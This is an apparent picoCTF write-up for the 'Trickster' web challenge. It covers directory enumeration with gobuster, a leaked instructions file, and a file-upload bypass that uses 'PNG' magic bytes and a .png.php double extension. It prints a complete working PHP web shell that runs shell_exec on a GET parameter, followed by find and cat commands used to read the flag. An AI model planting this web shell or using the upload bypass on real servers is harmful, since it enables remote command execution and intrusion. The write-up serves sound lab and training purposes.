





# Trickster Challenge Writeup
**Description**: I found a web app that can help process images: PNG images only!

## 1. Information Gathering

The target is a web app for uploading PNG images only. This suggests potential vulnerabilities related to file upload bypass or command injection. Let's begin by enumerating the web app.

## 2. Enumeration
Running the directory discovery tool:
```bash
gobuster dir -u http://atlas.picoctf.net:56528/ -w /usr/share/wordlists/dirb/common.txt
```

After running the gobuster command, we identify several interesting directories and files:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:56528/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 285]
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/index.php            (Status: 200) [Size: 321]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:56528/uploads/]
===============================================================
Finished
===============================================================
```

The `robots.txt` file contains the following:
```
# robots.txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

After examining instructions.txt, we discover crucial information:
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
    look for ".png" extension in the submitted files
    make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47")
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

This reveals the application's validation mechanism: it checks for both the `.png` extension and the PNG magic bytes at the beginning of the file. We can exploit this by crafting a PHP file that begins with "PNG" and has a double extension.

## 3. Exploitation
I'll create the following payload file named `script.png.php`:

```php
PNG
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Command Executor</title>
</head>
<body>
    <h1>Command Executor</h1>
    <form method="GET">
        <label for="command">Enter Command:</label>
        <input type="text" id="command" name="command" required>
        <button type="submit">Run</button>
    </form>
    <hr>
    <?php
    if (isset($_GET['command'])) {
        $command = $_GET['command'];
        $output = shell_exec($command);
        echo "<pre>$output</pre>";
    }
    ?>
</body>
</html>
```


Success! The application accepted our payload. Now I can execute commands by visiting the following URL:
```
http://atlas.picoctf.net:56528/uploads/script.png.php
```


Now let's search for potential flag files:
```bash
find / -name *.txt
```


The file `/var/www/html/GNTDOMBWGIZDE.txt` looks suspicious. Let's read its contents:
```bash
cat /var/www/html/GNTDOMBWGIZDE.txt
```



And there's our flag!